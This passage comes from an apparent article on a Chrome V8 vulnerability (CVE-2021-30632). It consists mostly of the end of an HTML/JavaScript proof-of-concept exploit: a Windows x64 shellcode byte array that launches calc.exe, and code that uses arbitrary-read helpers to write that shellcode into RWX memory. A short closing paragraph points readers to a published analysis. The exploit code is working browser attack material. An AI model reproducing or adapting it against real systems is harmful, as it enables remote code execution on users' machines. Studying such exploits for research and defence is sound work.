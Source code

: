 ``` html
      0x52, 0x41, 0x51, 0x48, 0x8B, 0x52, 0x20, 0x8B, 0x42, 0x3C, 0x48, 0x01, 0xD0, 0x8B, 0x80, 0x88,
      0x00, 0x00, 0x00, 0x48, 0x85, 0xC0, 0x74, 0x67, 0x48, 0x01, 0xD0, 0x50, 0x8B, 0x48, 0x18, 0x44,
      0x8B, 0x40, 0x20, 0x49, 0x01, 0xD0, 0xE3, 0x56, 0x48, 0xFF, 0xC9, 0x41, 0x8B, 0x34, 0x88, 0x48,
      0x01, 0xD6, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0, 0xAC, 0x41, 0xC1, 0xC9, 0x0D, 0x41, 0x01, 0xC1,
      0x38, 0xE0, 0x75, 0xF1, 0x4C, 0x03, 0x4C, 0x24, 0x08, 0x45, 0x39, 0xD1, 0x75, 0xD8, 0x58, 0x44,
      0x8B, 0x40, 0x24, 0x49, 0x01, 0xD0, 0x66, 0x41, 0x8B, 0x0C, 0x48, 0x44, 0x8B, 0x40, 0x1C, 0x49,
      0x01, 0xD0, 0x41, 0x8B, 0x04, 0x88, 0x48, 0x01, 0xD0, 0x41, 0x58, 0x41, 0x58, 0x5E, 0x59, 0x5A,
      0x41, 0x58, 0x41, 0x59, 0x41, 0x5A, 0x48, 0x83, 0xEC, 0x20, 0x41, 0x52, 0xFF, 0xE0, 0x58, 0x41,
      0x59, 0x5A, 0x48, 0x8B, 0x12, 0xE9, 0x57, 0xFF, 0xFF, 0xFF, 0x5D, 0x48, 0xBA, 0x01, 0x00, 0x00,
      0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8D, 0x8D, 0x01, 0x01, 0x00, 0x00, 0x41, 0xBA, 0x31, 0x8B,
      0x6F, 0x87, 0xFF, 0xD5, 0xBB, 0xF0, 0xB5, 0xA2, 0x56, 0x41, 0xBA, 0xA6, 0x95, 0xBD, 0x9D, 0xFF,
      0xD5, 0x48, 0x83, 0xC4, 0x28, 0x3C, 0x06, 0x7C, 0x0A, 0x80, 0xFB, 0xE0, 0x75, 0x05, 0xBB, 0x47,
      0x13, 0x72, 0x6F, 0x6A, 0x00, 0x59, 0x41, 0x89, 0xDA, 0xFF, 0xD5, 0x63, 0x61, 0x6C, 0x63, 0x2E,
      0x65, 0x78, 0x65, 0x00];

var rwxAddr;
if(other_method == false) {
  rwxAddr = arbRead(instanceAddr + 0x60);
  writeShellCode(rwxAddr, shellCode);
}
else {
  rwxAddr = arbRead1(instanceAddr + 0x60);
  writeShellCode1(rwxAddr, shellCode);
}

main();

</script>
</body>
</html>
```

Since the vulnerability exists within V8, you can see that the code above performs many operations that may seem incomprehensible. These operations are usually designed to satisfy certain conditions that trigger issues in V8. However, providing a detailed explanation is beyond the scope of this article. If you're interested, you can refer to the detailed analysis written by the GitHub security team: [Chrome in-the-wild bug analysis: CVE-2021-30632](https://securitylab.github.com/research/in_the_wild_chrome_cve_2021_30632/)
